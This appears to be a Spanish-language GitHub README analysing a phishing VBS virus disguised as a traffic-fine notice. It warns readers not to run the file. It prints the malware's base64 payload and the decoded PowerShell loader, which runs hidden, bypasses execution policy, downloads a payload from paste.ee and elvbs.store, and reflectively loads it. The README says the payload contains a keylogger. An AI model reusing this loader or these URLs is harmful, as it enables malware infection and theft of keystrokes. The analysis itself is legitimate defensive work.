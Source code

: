 # virus-breakdown

- ⚠️ NO ejecutar "Orden del Comparendo Electronico.vbs", este archivo es un virus que circula en diferentes correos electrónicos falsos. Para más información consulte [aquí] 
- ✔️ "decodificado.py" es seguro, elimina la ofuscación del virus que consiste en simples reemplazos e inversiones de strings. 

## :supervillain: El virus descifrado:
Con el archivo decodificado.py se puede observar que el virus contiene el siguiente código en base64:

Código base 64
```
JGRsbCA9ICcwLzhKTWgxL3IvZWUuZXRzYXAvLzpzcHR0aCc7JFJ1bXBlRCA9IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCAkZGxsWy0xLi4tJGRsbC5MZW5ndGhdIC1qb2luICcnICk7W0J5dGVbXV0gJFJ1bXBlID0gW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZyggJFJ1bXBlRFstMS4uLSRSdW1wZUQuTGVuZ3RoXSAtam9pbiAnJyApO1tSZWZsZWN0aW9uLkFzc2VtYmx5XTo6TG9hZCgkUnVtcGUpLkdldFR5cGUoJ2VudC5DbGFzczEnKS5HZXRNZXRob2QoJ1J1bicpLkludm9rZSgkbnVsbCwgW29iamVjdFtdXSAoJ3R4dC4yNjYwMjQwODIxMS9zYnYvZXJvdHMuc2J2bGUvLzpwdHRoJykp;$OWjuxD =
```


```
[SystemBolSULeYnpTextBolSULeYnpEncoding]::ASCIIBolSULeYnpGetString( [SystemBolSULeYnpConvert]::FromBase64String($Codigo) );powershellBolSULeYnpexe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command $OWjuxD
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
```



## :mage_man: El base 64 decodificado:
```
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
$dll = '0/8JMh1/r/ee.etsap//:sptth';$RumpeD = (New-Object Net.WebClient).DownloadString( $dll[-1..-$dll.Length] -join '' );[Byte[]] $Rumpe = [System.Convert]::FromBase64String( $RumpeD[-1..-$RumpeD.Length] -join '' );[Reflection.Assembly]::Load($Rumpe).GetType('ent.Class1').GetMethod('Run').Invoke($null, [object[]] ('txt.26602408211/sbv/erots.sbvle//:ptth'))9h
```

Pueden evidenciarse dos urls desde donde se descargan otras cadenas en base64 que contienen un keylogger:
- https://paste.ee/r/1hMJ8/0
- http://elvbs.store/vbs/11280420662.txt


### Existen otros 170 archivos, muy posiblemente otras variaciones del virus en http://elvbs.store/vbs


[aquí]: https://www.virus.com.co/318/usted-presenta-con-comparendo-por-foto-multa
